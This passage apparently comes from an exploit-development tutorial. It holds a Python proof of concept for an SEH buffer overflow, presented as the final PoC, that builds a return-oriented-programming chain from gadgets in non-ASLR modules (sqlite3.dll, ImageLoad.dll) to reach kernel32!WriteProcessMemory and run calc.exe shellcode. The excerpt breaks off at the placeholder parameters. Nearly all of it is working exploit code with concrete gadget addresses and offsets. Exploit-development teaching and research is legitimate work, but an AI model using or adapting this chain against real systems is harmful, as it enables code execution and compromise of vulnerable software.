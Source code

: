 Running the updated POC - we can see that the call to `kernel32!WriteProcessMemory` is complete - and that we have hit our breakpoints!

<img src="{{ site.url }}{{ site.baseurl }}/images/WPM90.png" alt="">

Here is the final PoC, with `calc.exe` shellcode.

```python
import sys
import os
import socket
import struct

# 4063 byte SEH offset
# Stack pivot lands at padding buffer to SEH at offset 2563
crash = "\x90" * 2563

# Stack pivot lands here
# Beginning ROP chain

# Saving address near ESP for relative calculations into EAX and ECX
# EBP is near stack address
crash += struct.pack('<L', 0x61c05e8c)    # xchg eax, ebp ; ret: sqlite3.dll (non-ASLR enabled module)

# EAX is now 0xfec bytes away from ESP. We want current ESP + 0x28 (to compensate for loading EAX into ECX eventually) into EAX
# Popping negative ESP + 0x28 into ECX and subtracting from EAX
# EAX will now contain a value at ESP + 0x24 (loading ESP + 0x24 into EAX, as this value will be placed in EBP eventually. EBP will then be placed into ESP - which will compensate for ROP gadget which moves EAX into EAX via "leave")
crash += struct.pack('<L', 0x10018606)    # pop ecx, ret: ImageLoad.dll (non-ASLR enabled module)
crash += struct.pack('<L', 0xffffefe0)    # Negative ESP + 0x28 offset
crash += struct.pack('<L', 0x1001283e)    # sub eax, ecx ; ret: ImageLoad.dll (non-ASLR enabled module)

# This gadget is to get EBP equal to EAX (which is further down on the stack) - due to the mov eax, ecx ROP gadget that eventually will occur.
# Said ROP gadget has a "leave" instruction, which will load EBP into ESP. This ROP gadget compensates for this gadget to make sure the stack doesn't get corrupted, by just "hopping" down the stack
# EAX and ECX will now equal ESP - 8 - which is good enough in terms of needing EAX and ECX to be "values around the stack"
crash += struct.pack('<L', 0x61c30547)    # add ebp, eax ; ret sqlite3.dll (non-ASLR enabled module)
crash += struct.pack('<L', 0x61c6588d)    # mov ecx, eax ; mov eax, ecx ; add esp, 0x24 ; pop ebx ; leave ; ret: sqlite3.dll (non-ASLR enabled module)
crash += struct.pack('<L', 0x90909090)    # Padding to compensate for above ROP gadget
crash += struct.pack('<L', 0x90909090)    # Padding to compensate for above ROP gadget
crash += struct.pack('<L', 0x90909090)    # Padding to compensate for above ROP gadget
crash += struct.pack('<L', 0x90909090)    # Padding to compensate for above ROP gadget
crash += struct.pack('<L', 0x90909090)    # Padding to compensate for above ROP gadget
crash += struct.pack('<L', 0x90909090)    # Padding to compensate for above ROP gadget
crash += struct.pack('<L', 0x90909090)    # Padding to compensate for above ROP gadget
crash += struct.pack('<L', 0x90909090)    # Padding to compensate for above ROP gadget
crash += struct.pack('<L', 0x90909090)    # Padding to compensate for above ROP gadget (pop ebx)
crash += struct.pack('<L', 0x90909090)    # Padding to compensate for above ROP gadget (pop ebp in leave instruction)

# Jumping over kernel32!WriteProcessMemory placeholder parameters
crash += struct.pack('<L', 0x10015eb4)    # add esp, 0x1c ; ret: ImageLoad.dll (non-ASLR enabled module)

# kernel32!WriteProcessMemory placeholder parameters
```